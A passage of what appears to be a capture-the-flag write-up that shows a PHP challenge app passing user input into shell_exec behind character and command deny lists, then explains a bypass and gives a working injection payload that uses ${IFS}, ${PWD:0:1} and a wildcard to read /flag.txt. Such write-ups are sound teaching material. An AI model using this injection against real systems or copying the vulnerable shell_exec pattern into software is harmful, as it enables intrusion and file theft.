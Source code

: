     function sanitizeCharacters($input) {
        for ($i = 0; $i < strlen($input); $i++) {
            if (in_array($input[$i], $GLOBALS['denyListCharacters'], true)) {
                return 'Illegal character detected!';
            }
        }
        return $input;
    }
    
    function sanitizeCommands($input) {
        foreach ($GLOBALS['denyListCommands'] as $cmd) {
            if (stripos($input, $cmd) !== false) {
                return 'Illegal command detected!';
            }
        }
        return $input;
    }
    
    function analyze($ingredient) {
        $tmp = sanitizeCharacters($ingredient);
        if ($tmp !== $ingredient) {
            return $tmp;
        }
    
        $tmp = sanitizeCommands($ingredient);
        if ($tmp !== $ingredient) {
            return $tmp;
        }
    
        return shell_exec("bash -c './quality.sh $ingredient' 2>&1");
    }
    
    $result = $ingredient !== '' ? analyze($ingredient) : '';
    ?>
    
    ```

  4) From index.php we learn the app runs bash -c './quality.sh $ingredient' and the secret is at /flag.txt (loadSecretRecipe() reads it).

     Filters block space, /, ., cat/echo, and more — but ; works, output is reflected.

## Flag

So we:

- replace space with ${IFS},
- synthesize / with ${PWD:0:1} (bash substring → /),
- dodge the dot with ? (single-char wildcard),
- avoid cat by using head.

```
choco;head${IFS}${PWD:0:1}flag?txt
```

<img width="860" height="235" alt="image" src="https://github.com/user-attachments/assets/e28a8650-41d7-41f7-ae54-2bd66f0e932f" />

```
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
```
